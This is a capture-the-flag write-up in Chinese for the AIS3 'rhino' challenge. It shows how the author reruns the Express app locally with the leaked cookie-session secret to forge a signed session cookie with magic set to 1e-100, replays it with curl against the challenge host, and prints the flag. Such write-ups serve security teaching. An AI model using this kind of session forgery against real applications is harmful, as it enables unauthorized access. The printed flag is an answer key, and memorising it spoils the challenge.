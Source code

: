 為了方便產生 `token` 把 `chill.js` 載下來，並且配置 `magic` 為 `1e-100`，這邊改過 `app.js`在本機執行

``` javascript
const express = require('express');
const session = require('cookie-session');

let app = express();

app.use(session({secret: 'I\'m watching you.'}));

app.use('/', express.static('./'));

app.get('/flag.txt', (req, res) => {
  res.setHeader('Content-Type', 'text/plain');

  req.session.magic = 1e-100;
  let n = req.session.magic;

  if (n && (n + 420) === 420)
    res.sendFile('/flag');
  else
    res.send('you are a sad person too');
});

app.get('*', function(req, res) {
  res.status(404).sendFile('404.html', {root: __dirname});
});

app.listen(8080, '0.0.0.0');
```

連上後之後得到 

``` plaintext
cookie
express:sess=eyJtYWdpYyI6MWUtMTAwfQ==; express:sess.sig=j6-UM1aQqL0kzUfwmUzpSQgJcV0
```

在透過 curl 傳送

``` bash
curl https://rhino.ais3.org/flag.txt --cookie 'express:sess=eyJtYWdpYyI6MWUtMTAwfQ==; express:sess.sig=j6-UM1aQqL0kzUfwmUzpSQgJcV0'
```

得到 flag

``` plaintext
AIS3{h4v3_y0u_r34d_7h3_rh1n0_b00k?}
```

